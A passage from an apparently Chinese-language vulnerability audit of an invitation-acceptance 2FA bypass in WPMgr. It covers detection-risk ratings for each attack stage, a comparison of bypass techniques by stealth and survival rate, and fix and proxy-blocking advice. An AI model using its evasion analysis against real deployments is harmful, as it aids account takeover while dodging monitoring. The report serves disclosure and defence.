ALTER TABLE audit_log ADD COLUMN source_ip inet;
ALTER TABLE audit_log ADD COLUMN user_agent text;
-- 注意: 这属于破坏性 schema 变更，需评估现有 RLS 策略与 append-only 哈希链的影响
```

**注意**：`audit_log` 有 `prev_hash`/`hash` 链式字段（`schema.sql:828-829`），追加新列会影响哈希计算的输入，需同步修改 `apps/api/internal/audit/audit.go:770` 附近的哈希链逻辑。**这正是"审计表缺 IP"可能是被刻意推迟的原因**——在哈希链表上做 schema 变更的代价很高。

### 6.2 被检出风险与缓解

| 阶段 | 暴露的信号 | 检出风险 | 缓解手段 |
|---|---|---|---|
| 注册攻击者账号 | `/auth/register` 流量 | **中** | 速率限制（`login_gate.go`）；异常注册地检测 |
| 创建组织 | `POST /api/v1/orgs` | **低** | 自助注册是产品功能，无法单独告警 |
| 铸造邀请 | `member.invited` 审计事件 | **中** | 规则 2 的关联分析；"邀请目标邮箱与操作者无组织关系"检测 |
| 密码验证 | `/auth/login` 返回 202 + challenge | **中** | 202 与 401 的**状态码差异**可被代理日志直接发现 |
| **接受邀请（旁路）** | **`POST /api/v1/invitations/accept` → 200 + Set-Cookie** | **高（若有规则 1）** | 部署规则 1；关键在"无前置会话"这一条件 |
| 会话使用 | `GET /auth/me` | **低** | 低噪声端点，通常无告警 |
| 租户切换 | `POST /api/v1/orgs/{id}/activate` | **低** | 需关联会话历史（规则 3） |

**最关键的检出窗口是"接受邀请"这一步**——它是整条链上唯一一个 HTTP 形态与正常流程不同的环节。但如 §5.2 所述，如果攻击者复用已有会话，这个信号也会消失。

**因此，防御建议不是"部署规则 1 就够了"，而是"规则 1 + 规则 2 必须同时部署"**：
- 规则 1 抓"无会话铸造会话"（全新攻击路径）；
- 规则 2 抓"邀请者 ≠ 接受者"（复用会话也逃不掉）。

### 6.3 同类工具对比表

> 对比对象为 WPMgr 生态内的等价攻击手法与其他 2FA 绕过技术的通用特征。**"所需权限""产生日志""蓝队检出难度""实网存活率"四列为针对本攻击链在 WPMgr 上的具体评估；非 WPMgr 技术的对应列基于同类技术的通行特征**【推测：未对每款工具做独立实测】。

| 技术 | 所需权限 | 产生日志 | 蓝队检出难度 | 实网存活率 |
|---|---|---|---|---|
| **本漏洞：invitation accept 绕过 2FA** | 自有组织 + `member.manage` + 受害者密码 | `member.invited` + `share.accepted`（**actor 为受害者**）+ 访问日志 200+Set-Cookie | **中-高**：单事件无异常，需跨事件关联；无 IP 字段 | **高**：至 2026-11-11 上游未修复 |
| 传统密码喷洒 | 无 | 大量 401/429 | **低**：WAF/IPS 规则成熟 | **低**：几乎必被拦 |
| 有效会话 Cookie 盗取（XSS） | 无 | 无应用层日志（复用受害者正常会话） | **高**：无新增事件 | **中-高** |
| OAuth/OIDC 授权码劫持 | 无（需受害者授权） | OIDC 回调日志 | **中**：state 校验可防 | **低** |
| 邀请链接泄露（受害者真的点了） | 令牌泄露 | `share.accepted`（actor 为受害者） | **中-高**：与本漏洞日志形态相同 | **中** |
| 邮件劫持获取邀请令牌 | 邮箱访问权 | 完整链路日志 | **低** | **中** |
| API Key 泄露 | API Key | `actor_type="api_key"` 审计记录 | **低**：审计直接标明凭证类型 | **低** |
| 2FA 恢复码爆破 | 受害者邮箱 | `ActionTOTPFailed` / `ActionRecoveryFailed` | **低**：有明确限速与审计 | **低** |

**对比结论**：本漏洞的"实网存活率"显著高于同级别其他技术，原因是**它不触发任何异常信号**——密码正确、令牌有效、响应 200、审计事件完整、actor 是受害者。**它走的全是"成功路径"，只是走错了一条门。**

### 6.4 修复建议（作者方案 + 防御方加固）

**上游修复方案**（`abraxas/wpmgr-invite-skip-2fa` README "The fix" 段落）：

1. 邀请接受改为路由到 `issueSessionOrChallenge`。若 `TwoFactorEnabled` 为真，返回 202 并挂起待接受的邀请，直到 TOTP 或恢复码成功。
2. 若邮件是预期通道，停止在成员创建 JSON 中返回原始 `accept_link`。

**针对 `invitation` 包的最小补丁方向**（不改变架构）：

```go
// apps/api/internal/invitation/service.go:322 附近
// 【缺陷】当前逻辑直接签发会话，跳过 2FA 门
if err := s.sessions.Login(ctx, u.ID, tenantID); err != nil {
```

修复需在 `service.go:297`（`VerifyPassword` 通过）与 `service.go:322`（签发会话）之间插入 2FA 分支。但**注意一个工程陷阱**：`service.go:304-318` 的认领逻辑把"认领令牌"和"授予成员资格"绑定在**同一事务**里，且设计意图是"令牌一旦被接受就不可重试"。如果先认领令牌再要求 2FA，令牌会在用户完成挑战前就被消耗——**必须把 2FA 挑战的待处理状态持久化，或调整事务边界**。这是修复中最容易出错的地方，也解释了为什么这个漏洞至今未修。

**防御方（不依赖上游发版）可立即实施的加固**：

1. **部署检测规则 1 + 规则 2**（§5.2）——这是唯一能在上游修复前止血的手段。
2. **在反向代理层临时拦截**：`POST /api/v1/invitations/accept` 且请求无 `wpmgr_session` cookie 且响应含 `Set-Cookie: wpmgr_session` 的请求，直接返回 403。**这能用 5 行 nginx/Envoy 配置封堵整个漏洞链**，且不依赖应用层修复。

   ```nginx
   # nginx 伪配置 —— 需在响应阶段判断（可用 lua/openresty 或 modsecurity）
   # 判定: accept 请求无会话 cookie 且响应返回了会话 cookie
   ```
3. **审计整改**：为 `audit_log` 增加 `source_ip` / `user_agent` 列并纳入哈希链输入（注意 schema 变更成本，见 §6.1）。
4. **收敛 `POST /api/v1/members` 的 `accept_link` 返回**：若业务允许，改为仅在 SMTP 未配置时返回。

---

## 7. 参考来源

> 全部条目于 **2026-11-11** 访问并逐条验证。第 2–8 条为本次审计实际执行的命令输出，非转述。

1. **上游仓库（受影响版本）** — https://github.com/mosamlife/wpmgr @ `e1b3a163988c9f1c31bc93922ea34322fa188792`
   - 验证：`git checkout e1b3a163988c9f1c31bc93922ea34322fa188792`；`git show -s --format="%h %ci %s" e1b3a163` → `e1b3a163 2026-11-01 15:56:01 +0530 REL199: release control plane 0.61.199 with agent 0.61.168 (#1018)`

2. **漏洞披露仓库** — https://github.com/abraxas/wpmgr-invite-skip-2fa
   - commit `9ea5918518b442d0268affcfe1ac74b62b08d4e1`，日期 2026-11-10

3. **缺陷根因源码** — https://github.com/mosamlife/wpmgr/blob/e1b3a163988c9f1c31bc93922ea34322fa188792/apps/api/internal/invitation/service.go
   - 关键行：`:322` `s.sessions.Login(ctx, u.ID, tenantID)`；`:297` `auth.VerifyPassword`；`:28` `maxAttempts = 10`

4. **受保护的对照实现** — https://github.com/mosamlife/wpmgr/blob/e1b3a163988c9f1c31bc93922ea34322fa188792/apps/api/internal/auth/handler.go
   - 关键行：`:444` `issueSessionOrChallenge`；`:470` `if res.User.TwoFactorEnabled`；`:497` 受保护的 `sessions.Login`

5. **架构决策记录 ADR-056（2FA 不变量来源）** — https://github.com/mosamlife/wpmgr/blob/e1b3a163988c9f1c31bc93922ea34322fa188792/docs/adr/ADR-056-dashboard-2fa.md
   - 关键段：Security invariants 第 10 条（"Single 2FA gate"）；Phased plan 第 4 阶段（Session/middleware enforcement）

6. **架构决策记录 ADR-055（前代方案）** — https://github.com/mosamlife/wpmgr/blob/e1b3a163988c9f1c31bc93922ea34322fa188792/docs/adr/ADR-055-autologin-2fa-bypass.md
   - 关键段：D4（2FA bypass via request-scoped session markers and filters）、D6（Do not fire `wp_login`）、Consequences/Negative

7. **B2 不变量 pin 测试** — https://github.com/mosamlife/wpmgr/blob/e1b3a163988c9f1c31bc93922ea34322fa188792/apps/api/internal/auth/twofa_security_test.go
   - 关键段：`:1-28` 文件头注释；`:103-` Group 1 Enforcement tests

8. **上游未修复的验证（本次实测）** —
   ```bash
   git log --oneline e1b3a163..HEAD -- apps/api/internal/invitation/     # 空
   git show HEAD:apps/api/internal/invitation/service.go | grep -n "sessions.Login"  # 322
   git grep -n "TwoFactor\|two_factor" HEAD -- apps/api/internal/invitation/   # 空
   ```
   HEAD = `4c3468cf`（"release: agent 0.61.169 (#1020)"）

9. **会话中间件（架构级隐患）** — https://github.com/mosamlife/wpmgr/blob/e1b3a163988c9f1c31bc93922ea34322fa188792/apps/api/internal/authz/middleware.go
   - 关键行：`:103-111` `RequireAuth`（仅校验 principal 存在性）

10. **审计表结构（蓝队数据源约束）** — https://github.com/mosamlife/wpmgr/blob/e1b3a163988c9f1c31bc93922ea34322fa188792/apps/api/db/schema.sql
    - 关键行：`:818-832` `CREATE TABLE audit_log`（12 字段，**无 ip / user_agent**）

11. **CWE-287 Improper Authentication** — https://cwe.mitre.org/data/definitions/287.html

12. **CVSS v3.1 规范（向量与 Roundup 规则）** — https://www.first.org/cvss/v3.1/specification-document
    - 本文 CVSS 8.1 为按该文档手工计算所得（计算过程见 §0）

13. **MITRE ATT&CK** —
    - T1078.001 Valid Accounts: Passwords — https://attack.mitre.org/techniques/T1078/001/
    - T1556 Modify Authentication Process — https://attack.mitre.org/techniques/T1556/
    - T1539 Steal Web Session Cookie — https://attack.mitre.org/techniques/T1539/
    - T1021 Remote Services — https://attack.mitre.org/techniques/T1021/

14. **PoC 与靶场配置** — https://github.com/abraxas/wpmgr-invite-skip-2fa/blob/main/lab/
    - `lab/poc.py`（witness-only 判定逻辑）、`lab/run.sh`（版本锁定与构建串行化）、`lab/docker-compose.yml`（端口绑定与镜像版本）

---

## 附：全文核心断言的证据映射

| 断言 | 证据位置 | 类型 |
|---|---|---|
| 缺陷根因在 `service.go:322` | `apps/api/internal/invitation/service.go:322` | 源码行号 |
| invitation 包完全不感知 2FA | `git grep "TwoFactor\|two_factor" HEAD -- apps/api/internal/invitation/` → 空 | 实测输出 |
| 受保护路径在 `handler.go:497` | `apps/api/internal/auth/handler.go:497` + `:470` | 源码行号 |
| 不变量要求"单一会话签发门" | `docs/adr/ADR-056-dashboard-2fa.md` Security invariants 第 10 条 | 架构文档 |
| 不变量枚举遗漏 invitation | ADR-056 同上（仅列 password login / verifyEmail / OIDC / Bootstrap） | 架构文档 |
| 9 个签发点中 8 个受保护 | `grep -rn "sessions\.Login" --include=*.go`（排除测试） | 实测输出 |
| 中间件不校验 2FA 状态 | `apps/api/internal/authz/middleware.go:103-111` | 源码行号 |
| 审计表无 IP / UA 字段 | `apps/api/db/schema.sql:818-832` | 源码行号 |
| 令牌在响应体中返回 | `apps/api/internal/auth/members_handler.go:140` | 源码行号 |
| 令牌为 64 字符 hex | `apps/api/internal/invitation/token.go:12-21` | 源码行号 |
| accept 端点公开无鉴权 | `apps/api/internal/invitation/handler.go:25-29` | 源码行号 |
| 密码错误触发 10 次锁定 | `apps/api/internal/invitation/service.go:28, 249-251, 299` | 源码行号 |
| CVSS = 8.1 | 按 CVSS v3.1 手工计算（§0 已展开） | 自行计算 |
| 上游截至访问日未修复 | `git log e1b3a163..HEAD -- .../invitation/` → 空 | 实测输出 |
| PoC 为 witness-only 且可验证修复 | `lab/poc.py:624-627` | 源码行号 |

---

> **本文所有技术断言均可追溯至上游源码行号、架构决策记录或本次实测命令输出。标注【推测】处为未做独立实测的评估性判断。**
>
> 复现环境与 PoC 版权归 `abraxas.null@proton.me`（Abraxas Labs）所有，遵循 AGPL v3.0。本文的引用与复现仅限已获授权的隔离环境。
